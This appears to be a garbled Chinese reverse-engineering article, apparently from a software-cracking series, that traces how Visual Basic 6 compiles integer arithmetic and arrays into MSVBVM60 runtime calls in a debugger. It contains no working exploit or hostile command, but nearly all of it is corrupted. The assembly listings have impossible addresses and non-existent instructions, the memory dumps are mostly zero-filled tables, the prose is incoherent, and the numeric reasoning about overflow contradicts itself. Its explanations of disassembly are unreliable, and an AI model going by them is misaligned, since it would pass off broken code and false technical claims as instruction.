0001C28 PUSH EDI
0001C2C CALL DWORD PTR[esp]+...
0001C2D MOV EAX,EAX
0001C31 PUSH EB
```


要理解这个的操作，需要调试器才能找到程序中的运行。在实际运行之前，先在`00410BD MOV DWORD PTR[esp]-48;006C14`处设置一个断点，执行该命令，“`0012F4C0 41 6E 00`”处，`0012F4C0`处是B1号吗？

# SECRET OF CRACK

当作寄存器，正常会导致1234567赋值给的是下面的语句何以见看来，看着前面寄存器`ESP-50=001F48=001F48`这个地址定位，这部分的内容可以使用调试器查看，如图1所示，执行`00401B0 MOV DWORD PTR[esp]-50+3]`的结果，如图2所示，执行该命令令（7）的方法就是下面的代码了：

```
00401B0 MOV DWORD PTR[esp]-50]
00401B3 CALL DWORD PTR[esp]:00]
```

| 00 | 01 | 02 | 03 | 04 | 05 | 06 | 07 | 08 | 09 | 10 | 11 | 12 | 13 | 14 | 15 | 16 | 17 | 18 | 19 |
|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|
| 00 | 82 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
| 01 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
| 02 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
| 03 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
| 04 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
| 05 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
| 06 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
| 07 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
| 08 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
| 09 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
| 0A | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
| 0B | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
| 0C | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
| 0D | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
| 0E | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
| 0F | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |

图1

| 00 | 01 | 02 | 03 | 04 | 05 | 06 | 07 | 08 | 09 | 10 | 11 | 12 | 13 | 14 | 15 | 16 | 17 | 18 | 19 |
|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|
| 00 | 82 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
| 01 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
| 02 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
| 03 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
| 04 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
| 05 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
| 06 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
| 07 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
| 08 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
| 09 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
| 0A | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
| 0B | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
| 0C | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
| 0D | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
| 0E | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
| 0F | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |

图2

## CRACK OF CRACK

乘除，但一定存在变量值或赋值转换的问题，虽然我们不能确定结果是否转换，用VB解释了赋值明的`MSVBM60_vVarModel`和`MSVBM60_vVarCopy`，它就是我们在编写调试的软件时的难点，并且使用了函数`MSVBM60-vVarModel`后，后面发现变量出现位置在时，“`0401B4 LEA EDX,WORD PTR SS[EP-58], 24`，”当你输入代码后，看看这是不可能的难事了。

这个例子的变量转换使用断点连接。对用VB编写的软件，它的注册调试信息受限的限制，这通常比较容易忽略，但可能遇到溢出。作为你编写的软件，VB调试进行“热调试”，就是计算结果是正确的，这包括其他的计算不是的？遇到纠错的，只要在进行退出处理后，就是连接的，继续执行后，对数据数据进行转换要求，只要在正确的范围内，所有的VB都可以自由进行调试计算，但对我造成了麻烦。

为什么这样做很难呢？因为当你为了要加计算的数据，必须控制范围的数据转换，这个模块就不太简单了，即使只有两个大整数，整体你可能也能明白自己费力了！

我们下面设置三个变量，为`integer`（由于不是为了省略），并且进行，加、除法运算（乘法是不越范围的）和与、或、异或运算，

```vb
Sub Private_Command()
Dim b1, b2, b3 As Integer
b1 = 12345
b2 = 56789
b3 = b2 + b1
b3 = b3 - b1
b3 = b3 * b1
```


简单就是？看看最后的代码：

```asm
0401B9: MOV DWORD PTR SS[EP-50],30
; 长度 = 12345
0401B0: MOV DWORD PTR SS[EP-58],56789
0401B7: CALL ESI
<&MSVBM60_vVarModel>
```

注意这些变量名，可以是相同的。

```asm
0401B9 LEA EDX,WORD PTR SS[EP-58]
0401BC LEA ECX,WORD PTR SS[EP-34]
0401BE MOV DWORD PTR SS[EP-50],50005
; = 56789
0401C6 MOV DWORD PTR SS[EP-58],3
; 减法
0401BD PUSH
0401CD CALL ESI
```

同样，这里要注意一个问题，`b1`的标记为`b2`的标记是为了？这标记应该是和从代码中相同的。

```asm
0401BF LEA EDX,WORD PTR SS[EP-34]
0401C2 LEA ECX,WORD PTR SS[EP-34]
0401C4 PUSH AX
0401D6 LEA DWORD PTR SS[EP-58]
0401D9 PUSH EC
0401DA PUSH ED
0401DB CALL DWORD PTR DS:[<AX]&MSVBM60_vVarModel
```

以以上代码进行变量相。

```asm
0401BE MOV DWORD PTR DS:[<AX]&MSVBM60_vVarModel
<&MSVBM60_vVarModel>
0401B7 PUSH EC
0401CA CALL ESI
<&MSVBM60_vVarModel>
```

返回结果用`b3`减一下，

```asm
0401EA LEA ECX,WORD PTR SS[EP-38]
0401ED MOV EBX,ECX
0401EF CALL DWORD PTR DS:[<AX]&MSVBM60_vVarModel
0401F0 MOV EBX,vVarModel
0401F1 LEA ECX,WORD PTR SS[EP-58]
0401FC LEA EDX,WORD PTR SS[EP-34]
040200 MOV DWORD PTR SS[EP-50],EBX
0402FF PUSH AX
040201 LEA EDX,WORD PTR SS[EP-48]
040203 MOV EBX,2
040204 PUSH EC
040205 PUSH ED
040206 LEA DWORD PTR SS[<EP-58],EBX
040209 CALL DWORD PTR DS:[<AX]&MSVBM60_vVarModel
```

以以上代码进行变量相减。

```asm
040213 PUSH AX
040214 CALL ESI
```

返回结果`j3`。

## SECRET OF CRACK

结果返回给`b`，

| 内存 | 指令 |
| :--- | :--- |
| 0001C20 | PUSH AX |
| 0001C21 | LEA EDX,WORD PTR SS[EBP-48] |
| 0001C24 | PUSH EC |
| 0001C25 | PUSH ED |
| 0001C26 | MOV DWORD PTR SS[EBP-48],EBX |
| 0001C29 | CALL DWORD PTR DS:[<AX>&MSVBM60] |

现在我们来看的这一行——1) 上面的加法运算，都有“`PUSH EC`”和“`PUSH ED`”的动作`ECX`和`ED`中的内容是什么？以以上代码执行减运算。

| 内存 | 指令 |
| :--- | :--- |
| 0001C2F | PUSH AX |
| 0001C30 | CALL esi |

结果返回给`b3`

| 内存 | 指令 |
| :--- | :--- |
| 0001C32 | LEA EDX,WORD PTR SS[EBP-24] |
| 0001C35 | LEA ECX,WORD PTR SS[EBP-34] |
| 0001C38 | PUSH AX |
| 0001C39 | MOV EDX,WORD PTR SS[EBP-48] |
| 0001C4J | PUSH EC |
| 0001C4D | PUSH ED |
| 0001C40 | CALL DWORD PTR DS:[<AX>&MSVBM60] |

2) 为什么`EBP`的标识是不一样的？3) 这段代码运行吗？第一个问题是结果，在`V8`调试下得知，运行正常。因为执行中的数据类型是3276而结果是5679，可能会溢出，可以改为5678，再次运行，此时的减运算就能正常运行。原因是：以以上代码执行减运算。

| 内存 | 指令 |
| :--- | :--- |
| 0001C44 | PUSH AX |
| 0001C45 | CALL esi |

结果返回给`b3`

| 内存 | 指令 |
| :--- | :--- |
| 0001C47 | LEA EDX,WORD PTR SS[EBP-24] |
| 0001C4A | LEA ECX,WORD PTR SS[EBP-34] |
| 0001C4D | PUSH AX |
| 0001C4E | LEA EDX,WORD PTR SS[EBP-48] |
| 0001C51 | PUSH EC |
| 0001C52 | PUSH ED |
| 0001C53 | CALL DWORD PTR DS:[<AX>&MSVBM60] |

第二个问题是为什么5679是溢出的？因为`b2`当作数据类型保存。修改数据后再来看。

| 内存 | 指令 |
| :--- | :--- |
| 0001C59 | PUSH AX |
| 0001C5A | CALL esi |

结果返回给`b3`。

| 内存 | 指令 |
| :--- | :--- |
| 0001C5C | LEA EDX,WORD PTR SS[EBP-24] |
| 0001C5F | LEA ECX,WORD PTR SS[EBP-34] |
| 0001C62 | PUSH AX |
| 0001C63 | LEA EDX,WORD PTR SS[EBP-48] |
| 0001C66 | PUSH EC |
| 0001C67 | PUSH ED |
| 0001C68 | CALL DWORD PTR DS:[<AX>&MSVBM60] |

| 内存 | 指令 |
| :--- | :--- |
| 0001B97 | PUSH ecx,ebx |
| 0001B9 | MOV DWORD PTR SS[EBP-58] |


| 内存 | 指令 |
| --- | --- |
| `0001BAD` | `LEA EDX,WORD PTR SS[EBP-24]` |
| `0001BA2` | `LEA ECX,WORD PTR SS[EBP-34]` |
| `0001BA5` | `PUSH DWORD PTR SS[EBP-24]` |
| `0001BA8` | `MOV DWORD PTR SS[EBP-34]` |
| `0001BAB` | `MOV DWORD PTR SS[EBP-48]` |
| `0001BAE` | `MOV DWORD PTR SS[EBP-50,3039]` |
| `0001B55` | `MOV DWORD PTR SS[EBP-58],EBX` |

看看，V8 还不显示内存的。第一个问题是不直接回答的，就那一行，赋值 `b1`, `b2` 赋值之后，

```
b1=0002f4a8
b2=0002f4d3
```

结论：变量在内存中的存储方法是按照从左到右的顺序来进行，即按照定义的安排，所以定义的地址就是当赋值值确定之后，我们最后一次 `ECX` 和 `EDX` 的操作是怎样的。

| 内存 | 指令 |
| --- | --- |
| `0001C6E` | `PUSH AX` |
| `0001C6F` | `CALL esi` |

作为赋值时，`ECX=002F4E4`（`b` 的地址），`EDX=002F4C0`（入栈的地址），`EAX=002F4B0`（`b` 地址，入栈）。实验证明了 `002F4C0` 是 `b` 的地址，参数是 `(b2, b1)`。有了赋值，你 `EAX` 不是零？我想，把这次的操作再用一遍！本节的关键在于：参与的数据格式。寄存器是赋值。你注意到在 `MSVB60_b2val` 是如何传递的？我的理解是数据在栈中的长度，连续字节。结论：在进行赋值时，函数的参数不是直接，也不是指针，而是指针，且数据不能看到。程序员经常觉得呢？查看代码：

```c
void Command(int b0, int *a1) {
b[0]=a1[0]; b[1]=a1[1]; b[2]=a1[2]; b[3]=a1[3]; b[4]=1;
}
```

赋值后的汇编是怎样的？

```asm
0040A0F PUSH EAX
0040A10 MOV EDX PTR [EBP-34]
0040A13 MOV EDX PTR [EBP-44]
0040A16 MOV EDX PTR [EBP-54]
0040A19 CALL DWORD PTR [EBP-64]
```

通过 `Array(2)` 告诉我们定义了一个结构。它是数组，还是体？看第5图就能明白了吗？

```hex
004000: 00 2F 4E 00 00 00 00 00 00 00 00 00 00
0040101: 00 2F 4C 00 00 00 00 00 00 00 00 00 00
0040102: 00 2F 4B 00 00 00 00 00 00 00 00 00 00
0040103: 00 2F 4A 00 00 00 00 00 00 00 00 00 00
0040104: 00 2F 49 00 00 00 00 00 00 00 00 00 00
```

注意：`0012F4EC`，整数类型结构，`0012F4C` 是结构长度，`0012F4DC` 是结构数据的地方，`0012F4EC` 是结尾，它是数组元素的地址，执行函数结束后的代码如下：

```asm
0040ABF MOV EDX, PTR [EBP-20]
; 结构指针：
```

```asm
00400AC2 PUSH EAX
00400AC3 PUSH 4
00400AC6 PUSH 1
00400AC7 MOV EDX PTR [ECX+4]
; 传递一个参数：
00400AD0 MOV EDX, PTR [EBP-20]
00400AD3 PUSH EBP
00400AD6 MOV EDX PTR [EBP-24]
00400AD9 ADD EAX,4
00400AE0 MOV EDX PTR [EBP-28]
00400AE3 LE EAX,[EBP-32]
00400AE6 MOV EDX PTR [EBP-36]
00400AE9 PUSH EAX
00400AF0 PUSH EAX
00400AF3 PUSH EAX
00400AF6 PUSH EAX
00400AF9 PUSH 880
0040B00 PUSH EAX
0040B03 MOV EDX, PTR [EBP-34]
0040B06 PUSH EAX
0040B09 PUSH 3334
0040B0C PUSH EAX
0040B0F PUSH 10
0040B12 CALL DWORD PTR [EBP-40]
0040B15 ADD EAX,4
0040B18 LE EAX,[EBP-44]
0040B1B MOV EDX, PTR [EBP-48]
0040B1E PUSH EAX
0040B21 PUSH EAX
0040B24 PUSH EAX
0040B27 CALL DWORD PTR [EBP-52]
```

接下来的结构，重新定义：

```asm
0040C00 CALL DWORD PTR [EBP-60]
0040C03 MOV EDX, PTR [EBP-68]
0040C04 ADD ESP,4
0040C07 CMP ECX,00
0040C0A MOV EDX, PTR [EBP-72]
0040C0D ADD ESP,4
```

虽然没有看到结果之前，我们知道了什么？任何平台都有些烦心，VBA 也不为例外，结构是数组，还是体？重新组织一个思路：

```
vArray();
```

注意到这里 `EAX` 中的赋值是可能的，除非它就是数组的地址；执行函数后我们发现了，

## ECT OF CRACK

`[0012FA4]=00152B88`，在 `00152B88` 处找到的代码。当程序完毕，却没有看到预想中的那样的数组，而是通过代码修改。

```hex
0012FA4: 40 15 02 88 00 00 01 00 01 02 00 00
00152B88: 00 00 00 28 29 15 00 00 00 00 00 00
00152B88: 06 8a 00 10 00 00 00 00 70 05 10
```

```asm
00410B20 MOV ECX, DWORD PTR [ESP+0C]
00410B23 LE EAX, DWORD PTR [ESP+8]
00410B26 CALL EAX
```

```hex
00152B88: 00 00 00 00 00 00 00 00 00 00 00 00
00152B90: 00 00 00 00 00 00 00 00 00 00 00 00
00152B98: 00 00 00 00 00 00 00 00 00 00 00 00
```

完成了数组初始化，结果7所示，这是一个结构化的数组，与之前3情况相似。函数传递的参数，在这些函数的后面有一个参数 `00150677`，指针的位置不在里面，这个数组就是用的吗？结果7所示，我们看到了数组赋值的结果。如果全部赋值，情况会如何？修改代码（代码8）看着之后发生了变化，重新定义了指针，发现原来的内存中的内容不再是预期的值，而是通过指针来获取值了。

```hex
00152B88: 00 00 00 00 00 00 00 00 00 00 00 00
00152B90: 00 00 00 00 00 00 00 00 00 00 00 00
00152B98: 00 00 00 00 00 00 00 00 00 00 00 00
```

我们现在理解原理了，重新定义指针，`EAX` 指向了新的指针（代码9），这个指针指向了新的指针，这个指针是数组，还是体？看第5图就能明白了吗？

7
